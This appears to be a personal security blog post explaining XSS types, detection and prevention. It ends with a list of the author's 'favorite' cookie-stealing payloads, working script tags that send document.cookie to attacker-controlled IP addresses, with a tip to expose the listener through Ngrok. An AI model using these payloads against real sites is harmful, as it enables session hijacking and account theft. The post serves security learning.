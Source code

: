 ```yaml
---
title: "XSS Vulnerabilities Made Eazyypezyyy"
date: 
slug: XSS
category: blog 
summary:
description: 
cover:
  image:
  alt:
  caption: 
  relative: true
showtoc: true
draft: false
---
```


# How Stored XSS Vulnerabilities Can Lead to Cookie Theft 😶‍🌫️

## What is XSS?
Cross-Site Scripting (XSS) is a common web application vulnerability that allows attackers to inject malicious scripts into web pages viewed by users. XSS can lead to various security issues, including session hijacking and data theft. To protect against XSS, developers should implement robust input validation techniques and utilize security encoding libraries, which help sanitize HTML and prevent these attacks.

## Types of XSS Attacks

- **Reflected XSS**: Imagine an attacker sends you a malicious link, perhaps in a phishing email. When you click that link, your browser sends your cookies to the attacker, giving them access to your session. It’s like opening the door to your house because someone knocked and said they were your friend!

- **Stored XSS**: This one is a bit sneakier. Here, the malicious script is stored directly in the website’s database. When you or anyone else visits that page, the script runs automatically. This typically happens when the site doesn’t clean up user input properly. If a user submits a dangerous payload in a sign-up form, and the site doesn’t sanitize it, it’ll execute every time someone visits the affected page.

- **Blind XSS**: In Blind XSS, the attacker hides their payload on the server, often through forms or feedback submissions. The tricky part? The payload doesn’t execute until an admin or another user views it later. So, it’s like setting a trap that only someone else will trigger!

## Common Entry Points for XSS
You’ll often find XSS vulnerabilities in places like:

- Registration forms
- Comment sections
- Search fields (This one is my fav! 😊)

## Testing for Blind XSS
To check for Blind XSS, you can inject simple scripts, like alerts, into input fields. If the script doesn’t run right away, it might mean it’s a Blind XSS vulnerability, waiting for someone else to activate it.

## The Cookie Theft Connection
One of the main goals of Blind XSS is to steal cookies. Attackers might encode the cookie in Base64 and send it to their server. For example, they could use `btoa()` to send the cookie data over.

## How to Detect XSS
Detecting XSS can be as simple as injecting a payload that runs JavaScript in your browser. The classic method is using the `alert()` function. However, since Chrome has put some restrictions in place, if that doesn’t work, try using `print()` instead.

## The Impact of XSS
The impact of XSS really depends on the context:

- In a public-facing app with no sensitive data, the effect might be minor.
- But if you’re dealing with sensitive information, like banking details, it can be severe.
- If an attacker gains access to an account with admin privileges, they could compromise the entire application.

## Preventing XSS Attacks
So, how can we keep our applications safe from XSS? Here are some key strategies:

- **Filter Input**: Always sanitize user input as soon as it arrives.
- **Encode Output**: Make sure data is properly encoded before it’s displayed.
- **Use Security Headers**: Implement headers to enhance security.
- **Content Security Policy (CSP)**: Use CSP to limit where content can be loaded from.

## My Favorite XSS Payloads for Cookie Theft and Keylogging
/* Use Ngrok to expose your local server since the provided IP addresses are private and not accessible from the internet. */

// Cookie Stealer Payloads

```javascript
<script>var i=new Image(); i.src="http://10.10.14.19:8000/?cookie="+btoa(document.cookie);</script>
<script>fetch('http://10.10.14.19:8000/?cookie=' + btoa(document.cookie));</script>
<script>window.location='http://10.10.14.4:8002/cookie='+document.cookie;</script>
<script>var myimg = new Image(); myimg.src='http://10.10.14.4:8002/q?=' + document.cookie;</script>
<script>document.location='http://10.10.14.19:8000/?c='+document.cookie;</script>
